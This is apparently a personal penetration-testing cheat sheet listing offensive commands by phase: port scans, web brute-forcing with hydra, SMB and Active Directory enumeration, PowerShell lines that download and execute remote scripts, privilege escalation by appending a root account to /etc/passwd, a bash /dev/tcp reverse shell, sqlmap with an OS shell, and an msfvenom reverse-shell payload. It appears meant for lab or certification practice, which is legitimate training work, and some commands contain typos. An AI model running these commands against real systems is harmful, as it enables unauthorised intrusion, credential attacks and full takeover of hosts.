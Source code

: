 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -sC -sV target -oN nmap/scriptscan && sudo nmap -O -sS -p- target -oN nmap/synscan && sudo nmap -sU -p- target -oN nmap/udpscan

# Sudo
sudo -l

# Web Enumeration (Dirb|gobuster)
dirb "http://$target" -r -z 10
gobuster dir -k --url "$target" --wordlist /usr/share/dirb/wordlists/common.txt -x php,html | tee <(sed "s/.*\r//g" > gobuster.txt)
hydra -l /usr/share/commix/src/txt/usernames.txt -p /usr/share/seclists/Passwords/cirt-default-passwords.txt "$target" -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
nikto -h "$target"

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-* "$target"
enum4linux -o "$target" -k none
smblcient -L "$target"
smbclient \\\\$target\\WORSPACE
smbmap -H target -u 0xdf -p 0xdf
evil-winrm -i target -u user -P password

# Upgrading Shell (pty)
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://self/file')
iex(new-object net.webclient).downloadstring("http://self/file")
Also check out 16.2.3 for base64 executable transfer and execution


# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**

# Linux Priv Esc
openssl password "$pasword" **generate password hash for $password**
echo "root2:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
docker run -v /:/mnt -it alpine

mkpasswd -m sha512 <password>

# WordPress (wp)
wpscan --url "http://$target" -e

# Compiling Shared Object (so)
gcc -o outfile.so -shared infile.c -fPIC

# Reverse Shell
bash -i >& /dev/tcp/192.168.119.194/8000 0>&1

# John the ripper
zip2john # extract hahs for john from protected zip file (also rar2john)

# Impacket
GetNPUsers.py # userful for AD attacks looking for user creds

# Active Directory AD
evil-winrm.rb -i target -u username -p password
bloodhound-python

# RPC
rpccliet -U "" -N target

# DNS
dig @target ip
nslookup
> server target
dig axfr target # zone transfer

## Enumeration
enumdonusers
enumdomgroups
querygroup <groupnumber>

# Misc Tools Yet to be tried (binwalk|sqlmap)
binwalk - find hidden parts in binary files (e.g. .tar hidden in an .jpg)
sqlmap - look for injections -- sqlmap -u 'http://target/dashboard.php?search=any+query' --cookie="PHPSESSID=3bqvp5sdfgobdcipjs24fkdvg2"
- Also try with the `--os-shell` flag

# MSFVenom
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=444 -f msi -o rev.msi

